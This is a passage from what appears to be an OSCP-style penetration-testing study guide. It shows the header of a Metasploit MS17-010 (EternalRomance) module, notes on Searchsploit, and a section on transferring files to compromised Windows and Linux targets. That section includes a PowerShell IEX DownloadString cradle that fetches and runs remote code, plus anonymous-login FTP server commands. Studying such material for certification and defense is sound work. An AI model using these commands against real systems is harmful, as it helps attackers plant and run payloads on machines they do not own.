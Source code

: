   def initialize(info = {})
    super(update_info(info,
      'Name'           => 'MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution',
      'Description'    => %q{
        This module will exploit SMB with vulnerabilities in MS17-010 to achieve a write-what-where
        primitive. This will then be used to overwrite the connection session information with as an
        Administrator session. From there, the normal psexec payload code execution is done.

        Exploits a type confusion between Transaction and WriteAndX requests and a race condition in
        Transaction requests, as seen in the EternalRomance, EternalChampion, and EternalSynergy
        exploits. This exploit chain is more reliable than the EternalBlue exploit, but requires a
        named pipe.
        
```

Play with some of the other command switches that Searchsploit has because it will make it much easier for you to find exploits on your kali box. 

* Manual for Searchsploit: [https://www.exploit-db.com/searchsploit](https://www.exploit-db.com/searchsploit)

# Section 13: Transferring Files to your target:
Depending on the target system you obtain access too you may not have the ability to transfer exploits or other tools you need to that system. With this being said you will need to figure out some techniques to transfer files to and from your target system. Here are a few guides I used to get a better understanding of how to transfer files onto Windows and Linux systems: 

Python Modules to run services to transfer files:  
* ```python2 -m SimpleHTTPServer 80``` Spins up a webserver in the directory you are located on port 80. 
* ```python3 -m http.server 80``` Spins up a python version 3.X web server in the directory you are located on port 80.
* ```python2 -m pyftpdlib -p 21 -w``` spins up a FTP server in the directory you are located on port 21 and it allows anonymous login access. 
* ```python3 -m pyftpdlib -p 21 -w``` spins up a Python 3.X FTP server in the directory you are located on port 21 and it allows anonymous login access. 

* Simple HTTP Server with Upload capabilities: [https://github.com/tjnull/OSCP-Stuff/blob/master/Transferring-Files/HTTPServerWithUpload.py](https://github.com/tjnull/OSCP-Stuff/blob/master/Transferring-Files/HTTPServerWithUpload.py)

Tools to transfer files on Windows:

* Powershell: 
Downloading a file from your host: ```powershell (New-Object System.Net.WebClient).DownloadFile('https://IP Address/update.exe', 'msi-installer.exe')```
Downloading a file and executing with Invoke-Expression: ```powershell IEX (New-Object System.Net.WebClient).DownloadString('http://127.0.0.1/msi-installer.exe')```

* bitsadmin. The tool is a command-line tool that you can use to create download or upload jobs and monitor their progress. You can find examples on how to use the tool here: 
[https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-examples](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-examples) 

* robocopy: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy

* certutil: [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)

For Windows 10, Server 2016/2019:

wget: 
```